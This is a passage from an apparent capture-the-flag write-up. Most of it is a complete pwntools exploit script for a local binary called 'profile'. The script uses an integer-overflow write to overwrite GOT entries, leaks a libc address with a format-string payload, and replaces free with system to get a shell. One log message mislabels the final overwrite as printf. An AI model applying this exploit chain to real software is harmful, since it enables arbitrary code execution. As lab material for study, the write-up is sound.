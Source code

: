### Overwriting the free function in GOT with system to get a shell

Now, we have the libc base, we can simply overwrite the `free` function with `system` to get a shell. The updated exploit becomes:

```python
#!/usr/bin/env python3

from pwn import *
import re

def overflow(addr: int):
	return str((addr << 32) + 1).encode()

context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary = ELF("./profile")
libc = elf.libc
io = process()

log.info("Overwriting free(%#x) with main(%#x)" % (elf.got.free, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])

log.info("Overwriting exit(%#x) with main(%#x)" % (elf.got.exit, elf.sym.main))
io.sendlineafter(b"Age: ", overflow(elf.got.exit))
io.sendlineafter(b'Name: ', p32(elf.sym.main)[:3])

log.info("Overwriting free(%#x) with printf(%#x)" % (elf.got.free, elf.sym.printf))
io.sendlineafter(b"Age: ", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(elf.sym.printf)[:3])

io.sendlineafter(b"Age: ", b"1")
io.sendlineafter(b"Name: ", b"HELLO|%3$p|")

data = io.recvuntil(b'|Age')
''' Getting only the address '''
leak = ''.join(re.findall("HELLO|(.*?)|Age", data.decode())).split('|')[-2]
leak = int(leak, 16)

libc.address = leak - 0x114a37
log.info("Libc base: %#x" % libc.address)

log.info("Overwriting free(%#x) with printf(%#x)" % (elf.got.free, elf.sym.printf))
io.sendlineafter(b": ", overflow(elf.got.free))
io.sendlineafter(b': ', p64(libc.sym["system"]))

io.clean()

io.interactive()
```
